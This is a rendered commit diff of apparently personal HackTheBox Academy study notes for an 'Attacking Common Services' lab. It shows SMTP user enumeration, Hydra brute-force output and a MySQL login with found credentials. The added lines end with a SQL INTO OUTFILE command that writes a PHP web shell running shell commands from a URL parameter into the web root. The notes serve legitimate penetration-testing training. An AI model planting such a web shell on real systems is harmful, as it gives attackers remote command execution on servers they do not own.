

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Attacking Common Services Easy: load txt file

````diff
--- a/HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md
+++ b/HTB-Academy/8-Attacking Common Services/SKILLS ASSESSMENT.md
@@ -49,7 +49,7 @@ PORT     STATE SERVICE
 
 ```
 
-**SMTP USER ENUMERATION**
+
 
 **Credentials Found:**
 
@@ -68,6 +68,8 @@ Password
 987654321
 ```
 
+
+**SMTP USER ENUMERATION**
 ```
 smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.54.68
 Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )
@@ -111,3 +113,29 @@ Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-08 22:50:
 Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-08 22:50:35
 
 ```
+
+**MySQL Login**
+
+Using the credentials found, login into mysql
+```
+mysql -h inlanefreight.htb -u fiona -p
+
+Enter password:
+Welcome to the MariaDB monitor.  Commands end with ; or \g.
+Your MariaDB connection id is 8
+Server version: 10.4.24-MariaDB mariadb.org binary distribution
+
+Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
+
+Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
+
+MariaDB [(none)]>
+```
+
+**mysql database**
+
+- use the mysql database
+- create a file
+```
+SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
+```
````
